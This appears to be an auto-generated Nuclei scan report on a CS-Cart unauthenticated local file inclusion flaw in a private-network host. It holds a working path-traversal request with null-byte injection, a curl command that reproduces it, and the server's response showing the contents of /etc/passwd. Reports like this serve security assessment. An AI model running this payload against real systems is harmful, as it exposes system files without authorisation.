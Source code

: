 ### CS-Cart - Local File Inclusion (cs-cart-unauthenticated-lfi) found on http://192.168.229.39/

----
**Details**: **cs-cart-unauthenticated-lfi** matched at http://192.168.229.39/

**Protocol**: HTTP

**Full URL**: http://192.168.229.39/classes/phpmailer/class.cs_phpmailer.php?classes_dir=../../../../../../../../../../../etc/passwd%00

**Timestamp**: Wed Nov 15 12:11:05 +0000 GMT 2023

**Template Information**

| Key | Value |
| --- | --- |
| Name | CS-Cart - Local File Inclusion |
| Authors | 0x_akoko |
| Tags | cscart, lfi |
| Severity | high |
| Description | CS-Cart is vulnerable to local file inclusion because it allows remote unauthenticated attackers to access locally stored files and reveal their content. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N) |
| CWE-ID | [CWE-22](https://cwe.mitre.org/data/definitions/22.html) |
| CVSS-Score | 7.50 |

**Request**
```http
GET /classes/phpmailer/class.cs_phpmailer.php?classes_dir=../../../../../../../../../../../etc/passwd%00 HTTP/1.1
Host: 192.168.229.39
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 1257
Content-Type: text/html
Date: Wed, 15 Nov 2023 12:10:47 GMT
Server: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
X-Powered-By: PHP/5.2.3-1ubuntu6

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
dovecot:x:104:111:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
postfix:x:105:112::/var/spool/postfix:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
patrick:x:1000:1000:patrick,,,:/home/patrick:/bin/bash
<br />
<b>Fatal error</b>:  Class 'PHPMailer' not found in <b>/var/www/classes/phpmailer/class.cs_phpmailer.php</b> on line <b>6</b><br />

```

References: 
- https://cxsecurity.com/issue/wlb-2020100100

**CURL command**
```sh
curl -X 'GET' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36' 'http://192.168.229.39/classes/phpmailer/class.cs_phpmailer.php?classes_dir=../../../../../../../../../../../etc/passwd%00'
```

----

Generated by [Nuclei v2.9.11](https://github.com/projectdiscovery/nuclei)